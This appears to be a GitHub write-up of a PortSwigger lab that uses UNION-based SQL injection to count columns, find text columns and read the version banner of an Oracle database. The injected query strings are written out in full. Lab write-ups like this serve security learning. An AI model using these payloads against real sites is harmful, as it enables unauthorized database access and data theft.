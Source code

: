 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7c102d92-7908-48b4-8fb1-15a9e672e982)

## Solution:

Determine the number of columns

caputred request

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a9a084ad-c96e-4ff5-83cc-0bfe6751edf3)

Quary made-

`SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL FROM dual--`

Quary changed-

`SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL FROM dual--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/5de8ac74-82d1-4ec2-9266-7fe8a2f0c415)

there are 2 columns being retreived.

Determine the column which has text data

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'a','b' FROM dual --`

Both the columns show the text in response. So both columns support text data.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0d6deb45-5c1a-4a78-b51d-e9672eeae607)

Retreive db type & version of ORACLE

To retretive db type & version of ORACLE , we have the syntax `SELECT * FROM v$version`

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/edc89aa7-1551-417d-8afa-e4e0a751540a)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3c78883e-c717-4ebd-8931-c886b9c866f1)


